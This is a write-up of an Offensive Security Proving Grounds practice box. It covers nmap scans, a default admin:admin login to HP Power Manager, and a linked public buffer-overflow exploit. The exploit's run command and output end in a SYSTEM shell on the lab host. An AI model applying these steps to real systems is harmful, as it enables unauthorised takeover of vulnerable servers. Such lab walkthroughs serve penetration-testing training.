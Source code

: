 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -p- -Pn 192.168.55.45
Nmap scan report for 192.168.55.45
Host is up (0.000085s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
3573/tcp  open  tag-ups-1
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 102.74 seconds

$ nmap -p80,3389,3573,49152 -Pn -sV 192.168.55.45
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-31 13:45 EST
Nmap scan report for 192.168.55.45
Host is up (0.00026s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           GoAhead WebServer
3389/tcp  open  ms-wbt-server?
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc          Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.92%I=7%D=12/31%Time=61CF4FE2%P=x86_64-pc-linux-gnu%r(T
SF:erminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\x01\x08\0\x
SF:02\0\0\0");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.65 seconds
```

## OS detection
```bash
$ sudo nmap -Pn -p80 -O 192.168.55.45                                             
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-31 14:28 EST
Nmap scan report for 192.168.55.45
Host is up (0.00052s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:50:56:BF:EB:38 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds

```

So our target is a `windows` machine and we start by investigating the web server on port 80.

---

# vulnerabilty
## web server (port 80)

On the webserver there is the `Hewlett-Packard (HP) Power Manager Administration` visible.  
Googling for default credentials show the following result.

![default credentials](/images/kevin1.png)

> `admin:admin` can be used to log in.
{: .prompt-info }

After we logged in we see that `hp power manager 4.2 (build 7)` on `windows 7` is used.

## exploitation
Researching on `Google` for an exploit reveals the following result.

![default credentials](/images/kevin2.png)

[Link to exploit](https://github.com/Muhammd/HP-Power-Manager/blob/master/hpm_exploit.py)

After we downloaded the exploit we can simply fire it in the following way.

```bash
$ python2 hpm_exploit.py 192.168.55.45

##//#############################################################################################################
##                                                      ##                                                      #
## Vulnerability: HP Power Manager 'formExportDataLogs' ##  FormExportDataLogs Buffer Overflow                  #
##                                                      ##  HP Power Manager                                    #
## Vulnerable Application: HP Power Manager             ##  This is a part of the Metasploit Module,            #
## Tested on Windows [Version 6.1.7600]                 ##  exploit/windows/http/hp_power_manager_filename      #
##                                                      ##                                                      #
## Author: Muhammad Haidari                             ##  Spawns a shell to same window                       #
## Contact: ghmh@outlook.com                            ##                                                      #
## Website: www.github.com/muhammd                      ##                                                      #
##                                                      ##                                                      #
##//#############################################################################################################
##
##
## TODO: adjust 
##
## Usage: python hpm_exploit.py <Remote IP Address>

[+] Payload Fired... She will be back in less than a min...
[+] Give me 30 Sec!
(UNKNOWN) [192.168.55.45] 1234 (?) open
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

> We got a `nt authority\system` shell!
{: .prompt-info }

---

# post exploitation

```bash
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
c******************************6
```

Pwned! <@:-)
